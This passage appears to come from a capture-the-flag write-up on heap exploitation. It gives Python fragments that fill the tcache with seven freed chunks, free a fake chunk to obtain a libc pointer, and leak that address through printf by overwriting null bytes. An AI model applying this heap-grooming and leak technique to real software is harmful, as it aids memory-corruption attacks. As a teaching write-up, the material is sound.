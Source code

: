 Then we create and free 7 chunk with our fake chunk to get libc

```
for i in range(7):
	add(0x80, str(i).encode()) # Data is not important
for i in range(7):
	delete(i)
delete(20)
```

![delete_20.png](images/delete_20.png)

To leak the address via printf, we need to remove null bytes, change them to another character so that printf will print all the address for us. And this work can be done by using show() function, edit null byte to 'A' and them just print the name.

```
show(b'Y', b'A'*0x20)
```
